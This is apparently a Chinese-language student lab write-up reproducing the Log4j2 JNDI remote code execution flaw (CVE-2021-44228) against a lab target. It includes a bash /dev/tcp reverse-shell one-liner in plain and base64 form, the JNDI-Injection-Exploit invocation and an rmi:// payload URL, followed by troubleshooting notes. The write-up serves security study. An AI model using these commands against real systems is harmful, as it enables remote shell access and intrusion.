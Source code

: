 # log4j2漏洞利用复现

## 漏洞原理

通过网上一张图解释漏洞原理，java应用程序提供的jndi
接口自动记录日志，并且会执行${jndi:ldap:}命令，因此只要提供一个恶意代码文件，就能通过这个命令让靶机去攻击机查找并下载病毒文件，然后返回poc.class给攻击机从而攻击机获得shell权限。

![alt text](images/principle.png)

## 下载maven安装包

`wget https://dlcdn.apache.org/maven/maven-3/3.9.4/binaries/apache-maven-3.9.4-bin.tar.gz`

![alt text](images/image-13.png)

通过命令`tar -zxvf apache-maven-3.9.4-bin.tar.gz`解压缩

在解压目录能够发现apache-mave-3.9.4文件

![alt text](images/image-14.png)

修改配置文件`vim /etc/profil`,在配置文件上添加相应的环境变量

```python
export MAVEN_HOME=/root/apache-maven-3.9.4 
export PATH=$MAVEN_HOME/bin:$PATH
```

![alt text](images/image-15.png)

`source /etc/profile`刷新配置文件，以确保修改生效

mvn安装完成

![alt text](images/image-16.png)

## 安装jndi注入工具

克隆github提供的注入包，这里是已经克隆好的

![alt text](images/image-12.png)

切换到 JNDI-Injection-Exploit目录，通过`mvn clean package -DskipTests命令编译打包`

![alt text](images/image-17.png)

接下来就可以利用JNDI注入工具进行攻击

## 注入攻击

构建反弹shell到攻击者主机端口，靶机定向到攻击机后自动下载ExecTemplateJDK8.class文件，然后触发，攻击机获取shell权限：

`bash -i >& /dev/tcp/192.168.249.8/6667 0>&1`命令进行URL编码`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==`，IP指定为攻击机IP，端口选取未被占用端口

监听6667端口

![alt text](images/image-20.png)

构建注入命令

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
     -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==}|{base64,-d}|{bash,-i}" \
     -A "192.168.249.8"
```

![alt text](images/image-18.png)

可以通过java -version查询相应的版本并选取来构造payload，之前kali默认按安装2.0版本，降级为1.8版本（这地方存在问题，后文会说）

![alt text](images/image-19.png)

选取`rmi://192.168.249.8:1099/fswrwl`进行URL编码并payload构造

![alt text](images/image-21.png)

和之前环境利用测试的一样会瞬间连接并断开

![alt text](images/image-22.png)

获得shell

![alt text](images/image-23.png)

flag在shell的tmp文件中

![alt text](images2/image.png)

## 问题和解决

### java 版本

![alt text](images/image-24.png)

之前构造payload后拿不到反弹shell，检查java版本过高，然后将攻击机和靶机都降级为1.8版本，但是还是无法获得shell。随后以为是trustURLCodebase原因，trustURLCodebase为true的1.8版本无法实现注入，反而是`Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):`能够实现注入，比较反常

### http 版本

观察端口可以发现，搭建的java进程都是IPv6通信，当时怀疑是协议不对称的问题导致的

![alt text](images/image-25.png)

于是更换为IPV4java进程，但是依旧无法获得shell

![alt text](images/image-26.png)

![alt text](images/image-27.png)

### 服务器原因

考虑到JNDI搭建的服务器断开连接并且访问攻击机8180显示访问页面为空，搭建http服务能够看见相应的文件，猜测会是服务器没有正确将本地文件进行挂载

![alt text](images/image-32.png)

![alt text](images/image-30.png)

但是通过curl攻击机均有回复

![alt text](images/image-28.png)

![alt text](images/image-29.png)

并且能够通过URL获取ExecTemplateJDK8.class

![alt text](images/image-31.png)

因此服务器应该是能够将class文件正确挂载

### 攻击手段原因

直接使用bash命令不进行包装是能够成功的，因此是注入工具出现问题

![alt text](images/image-34.png)

### 环境

攻击机和靶机均应不大于java1.8

## 参考文档

[maven 的安装与配置（Command ‘mvn‘ not found）修改配置文件后新终端依旧无法识别到 mvn 命令](https://myon6.blog.csdn.net/article/details/136558685?spm=1001.2014.3001.5502)

[log4j2 远程代码执行漏洞复现（CVE-2021-44228）](https://blog.csdn.net/Myon5/article/details/136548391)

[Kali安装JAVA8和切换JDK版本的详细过程](https://blog.csdn.net/huayimy/article/details/130273362)

[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub，保姆级的详细教程）](https://blog.csdn.net/Bossfrank/article/details/130148819)

[网络空间安全综合实践](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#)
